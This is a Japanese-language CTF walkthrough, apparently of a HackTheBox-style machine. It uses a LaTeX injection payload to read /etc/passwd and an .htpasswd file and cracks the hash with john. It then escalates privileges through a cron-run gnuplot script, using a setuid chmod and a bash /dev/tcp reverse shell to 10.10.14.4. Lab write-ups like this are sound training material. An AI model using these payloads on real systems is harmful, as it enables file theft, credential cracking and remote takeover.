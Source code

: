 #### nmap
![](/images/20230827205014.png)

webサイトにアクセスしてみる
![](/images/20230827205207.png)
ほとんどのリンクは死んでいるが下線のリンクだけは生きている
hostsに登録しないとアクセス出来なのでhostsに登録する
![](/images/20230827205438.png)
リンク先を開くとLaTex式ジェネレーターのページが開く
![](/images/20230827213240.png)

>**LaTeX** 高品質の数式と記号を使用して、科学的および技術的文書をタイプセットおよびフォーマットするために使用される文書準備システムです。次に、‘ latex ’のペイロードを検索します。

HackTricksのページにLaTexInjectionがある
![](/images/20230827214511.png)

```bash
$\lstinputlisting{/etc/passwd}$
```
を実行すると
![](/images/20230827214733.png)
上記の結果がえられる

gobuster or wfuzzからサブドメインがあることが分かる

/devがあったので「/var/www/dev」が存在する。
apacheサーバーでは、ユーザーパスワードのデフォルトの資格情報が「.htpasswd」に保存されている。

先ほどのペイロードの部分を変更して
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
を実行すると
![](/images/20230827221915.png)
が得られる

ユーザーは「vdaisley」
パスワードはハッシュなのでjohnで解読する
![](/images/20230827222627.png)

password = calculus20

#### SSH接続

![](/images/20230827222710.png)

#### 権限昇格

ディレクトリのパーミッションをチェックする
```shell
find / -type d -perm /020 -not -perm /040 2>/dev/null
```

>-perm /020： このオプションは、特定のパーミッションを持つディレクトリをフィルタリングする。先頭のフォワードスラッシュ（"/"）は、パーミッションが正確に一致することを示す。"020 "は、グループのパーミッション "wx-"（書き込みと実行はできるが、読み取りはできない）の8進数表現である。
>
>-not -perm /040: このオプションは、特定のパーミッションを持つディレクトリを除外することで、さらにディレクトリをフィルタリングする。ここでも、フォワードスラッシュ("/")は完全一致を示し、"040 "はグループの "r--"(読み込みのみ)パーミッションの8進数値を示す。したがって、グループの読み取りパーミッションを持っているディレクトリは、検索結果から除外されます。

![](/images/20230827225149.png)

pspy64を実行
![](/images/20230827225949.png)

![](/images/20230827230042.png)

定期的に/opt/gnuplot/配下のシェルが動いている
/opt/gnuplot/内にwatch.pltを作成して実行されるのをまつ（watch.pltは任意のファイル名）
```
'system "chmod u+s"' > /opt/gnuplot/watch.plt
```

![](/images/20230827230905.png)

![](/images/20230827231320.png)

または

```shell
system “bash -c ‘bash -i >& /dev/tcp/10.10.14.4/12345 0>&1’"
```

で/opt/gnuplot/watch.pltを作成
```shell
nc -nvlp 12345
```
でリバースシェルを取得する。

>"system": これは、プログラム内から別のコマンドまたはシステムコールを実行するために使用される関数またはコマンドです。この場合、システムコマンドを実行しています。
>"bash -c 'bash -i >& /dev/tcp/10.10.14.4/12345 0>&1'": これは実行されるシステムコマンドです。
> "bash -c": これは、Bashシェルに引数として指定されたコマンドを実行するように指示します。
> 'bash -i >& /dev/tcp/10.10.14.4/12345': この内部コマンドは、IPアドレス`10.10.14.4` port `12345`へのTCP接続を設定します 。
> "-i": このフラグにより、インタラクティブなシェルがリモートシステムに確実に生成されます。
> ">& /dev/tcp/10.10.14.4/12345": これにより、Bashシェルの標準出力と標準エラーの両方が `10.10.14.4` portに `12345`。これにより、出力メッセージとエラーメッセージをネットワーク経由で送信できます。
> "0>&1": これにより、標準入力(ファイル記述子0 )が標準出力(ファイル記述子1 )にリダイレクトされます。このステップにより、確立されたTCP接続を介して受信されたすべての入力が標準出力にリダイレクトされ、リモートシステムとの相互作用が可能になります。